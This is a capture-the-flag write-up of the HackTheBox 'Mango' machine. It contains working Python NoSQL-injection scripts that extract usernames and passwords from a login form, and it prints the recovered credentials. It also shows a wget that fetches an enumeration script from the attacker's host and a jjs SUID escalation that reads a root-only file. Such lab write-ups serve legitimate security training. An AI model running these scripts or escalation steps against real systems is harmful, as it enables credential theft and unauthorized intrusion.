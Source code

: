 ```yaml
---
Title: HackTheBox Mango
Date: 2020-08-08
Category: Challenges
Status: published
---
```


Mango was an interesting box when it comes to enumeration. It taught me to look more closely and not brush off anything just because I have seen it before. The box is also a prime lesson to aggregate your recon info in a structured manner so it's easier to apply it at other points when you hit a dead end somewhere. There were also some nice opportunities for small, specialised attack scripts, which I particularly enjoyed! When we start out by scanning the box, we get the following report:

```sh
# nmap -sS -sC -oN mango.nmap 10.10.10.162
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-08 13:30 GMT
Nmap scan report for 10.10.10.162
Host is up (0.13s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
| ssh-hostkey:
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http
|_http-title: 403 Forbidden
443/tcp open  https
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1

Nmap done: 1 IP address (1 host up) scanned in 10.49 seconds
```

When you know what to look for, it's trivial, but it took me more time than I'm willing to admit here to see the leaking domain name in the SSL certificate. Its subject points to `staging-order.mango.htb`. Port 80 is not that interesting at is just yields a permission error. Heading to the site on port 443, are are greeted with a search page:

![Image]({attach}screenshot-from-2019-12-08-14-32-50.png){: .image-process-article-image}

Exploring the site manually, we find an analytics frontend:

![Image]({attach}screenshot-from-2019-12-08-14-35-19.png){: .image-process-article-image}

On the first look, this seems to provide some interesting attack surface. Checking the source code, we only find hardcoded JSON data and file inclusions from flexmonster.com - all sample data, apparently. So we skip it as there is nothing interesting on here that is in scope. Moving on, with the `mango.htb` added to our hosts file, we can access the SSL-protected part of the site, which we got from the certificate's common name. There, we are greeted with a login panel:

![Image]({attach}screenshot-from-2019-12-08-17-00-27.png){: .image-process-article-image}

Logging the network requests on the page when trying some easy default candidates does not yield any success. However, thinking about the box' name, I thought that it might be a hint for MongoDB as a backend service. And the all-time classic here is attempting NoSQL injection. So I crafted a little Python script that uses form field regular expressions to enumerate the database's usernames:

```python
import requests
import string
import sys


username = ""
u = "http://staging-order.mango.htb/index.php"

def escape(c):
    return "\\" + c if c in string.punctuation else c

while True:
    sanitized = username.replace("\\", "")

    found = False
    for c in string.ascii_letters + string.digits + string.punctuation:
        esc = escape(c)
        sys.stdout.write("\r{}{}".format(sanitized, c))
        sys.stdout.flush()
        params = {
            "password[$ne]": "foo",
            "username[$regex]": "{}{}.*".format(username, esc),
            "login": "login"
        }
        r = requests.post(
            u,
            data=params,
            verify=False,
            allow_redirects=False
        )
        if r.status_code == 302:
            username += esc
            found = True
            break

    if not found:
        print("\rFound username: '{}'".format(sanitized))
        break
```

Et voilà, the usernames `mango` and `admin` show up. Armed with that knowledge, we can exploit the same vulnerability to extract the user's passwords from the database with a little variation of the above script:

```python
import requests
import string
import sys


username = "admin"
password = ""
u = "http://staging-order.mango.htb/index.php"


def escape(c):
    return "\\" + c if c in string.punctuation else c


while True:
    sanitized = password.replace("\\", "")

    found = False
    for c in string.ascii_letters + string.digits + string.punctuation:
        esc = escape(c)
        sys.stdout.write("\r{}{}".format(sanitized, c))
        sys.stdout.flush()
        params = {
            "password[$regex]": "^{}{}.*".format(password, esc),
            "username": username,
            "login": "login"
        }
        r = requests.post(
            u,
            data=params,
            verify=False,
            allow_redirects=False
        )
        if r.status_code == 302:
            password += esc
            found = True
            break

    if not found:
        print("\rFound password for {}: '{}'".format(username, sanitized))
        break
```

And we get the following output:

```
mango: h3mXK8RhU~f{\]f5H admin: t9KcS3>!0B#2
```

Logging in as either just brings us to a dead end:

![Image]({attach}screenshot-from-2019-12-09-12-01-55.png){: .image-process-article-image}

So we circle back to our recon results and see where we can apply this new information to make progress. Trying to log in through SSH shows that the `mango` user also exists on the server, and they have reused their password. We manage to get a shell, but no user flag. Sad. :(

But maybe the admin user exists on the machine too and just didn't enable the password on their SSH login. Running `su admin` and entering the password leads to great success and we have now secured the user flag. As admin, doing the usual enumeration game...

```sh
$ cd /tmp
$ wget 10.10.14.13/LinEnum.sh
--2019-12-09 11:34:28--  http://10.10.14.13/LinEnum.sh
Connecting to 10.10.14.13:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46476 (45K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh               100%[=================================>]  45.39K   138KB/s    in 0.3s

2019-12-09 11:34:28 (138 KB/s) - ‘LinEnum.sh’ saved [46476/46476]

$ chmod +x LinEnum.sh
$ ./LinEnum.sh > totallynotareport.txt
```

... we find an interesting line in the report:

```
[+] Possibly interesting SUID
files: -rwsr-sr-- 1 root admin 10352 Jul 18 18:21 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

Indeed, interesting. Because `jjs` is a super easy point for privilege escalation when run with elevated privileges. And this one has an SUID flag! Reading up a bit on [GTFOBins](https://gtfobins.github.io/gtfobins/jjs/#file-read) (because no one can remember that stuff, seriousy), we craft the following payload:

```java
echo 'var BufferedReader = Java.type("java.io.BufferedReader");> var FileReader = Java.type("java.io.FileReader");> var br = new BufferedReader(new FileReader("/root/root.txt"));> while ((line = br.readLine()) != null) { print(line); }' | jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
jjs> while ((line = br.readLine()) != null) { print(line); }
8a8ef79a7a2fbb01ea81688424e9ab15
```

And that gives us the root flag. Awesome!
